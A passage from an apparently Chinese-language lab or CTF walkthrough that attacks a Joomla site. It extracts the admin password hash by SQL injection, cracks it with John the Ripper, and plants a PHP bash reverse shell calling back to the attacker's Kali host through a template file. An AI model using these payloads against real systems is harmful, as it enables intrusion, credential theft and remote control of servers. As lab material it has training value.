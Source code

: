 ```python
http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x5e,substr((select+password+from+%23__users),50,30),0x5e),1)

'^R0kWFlfB1Zu^'
```

拼起来就是
登录用户名 `admin`
密码hash `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`

### 使用 john 破解admin的密码hash (joomla CMS)
将密码hash 写到 `hash.txt`
```bash
$ echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' > hash.txt

$ john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
snoopy           (?)
1g 0:00:00:00 DONE 2/3 (2022-03-14 08:29) 1.075g/s 38.70p/s 38.70c/s 38.70C/s mustang..buster
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

后台登录用户/密码
`admin/snoopy`

后台登录地址
`http://172.16.1.94/administrator`

`文件上传位置`
`Extensions-->Templates-->Templates-->Styles-->protostar -Default`
找到 index.php
写入
```php
<?php
	system("bash -c 'bash -i >&/dev/tcp/kaliip/4444 0>&1'")
?>
```

kali cmd
```bash
nc -lvp 4444
```

然后访问 网站根
get_shell
### 使用 msfconsole 利用 CVE-2017-8917 RCE
